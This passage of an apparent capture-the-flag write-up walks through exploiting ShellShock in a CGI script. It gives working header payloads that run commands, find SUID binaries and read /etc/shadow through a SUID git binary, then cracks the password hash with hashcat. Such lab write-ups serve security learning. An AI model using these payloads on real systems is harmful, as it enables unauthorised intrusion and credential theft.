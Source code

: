 There was cgi-bin/uptime.sh:

![image](https://github.com/jackalkarlos/CTF-Writeups-and-Scripts/assets/88983987/b81ca26d-ac39-4f31-9680-e79b839ce133)

I suspected ShellShock, because there was .sh file on Web Server.

What is ShellShock Vuln:
> https://securityintelligence.com/articles/shellshock-vulnerability-in-depth/

Bash < 4.3 is vulnerable.

I used this header for be sure.

```
Custom: () { ignored; }; echo Content-Type: text/html; echo ; /usr/bin/echo "hi"
```

Response was "hi"

I tried to cat /etc/shadow but i was dont have enough permission for this.

I looked for SUID bit binaries.

```
Custom: () { ignored; }; echo Content-Type: text/html; echo ; /usr/bin/find / -perm -u=s -type f 2>/dev/null

```

There was Git!

I looked gtfobins and used this command and i get password hash.

```
Custom: () { ignored; }; echo Content-Type: text/html; echo ; /usr/bin/git diff /dev/null /etc/shadow
```

And i cracked m4d0k4's password with hashcat.

```
hashcat -m 500 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

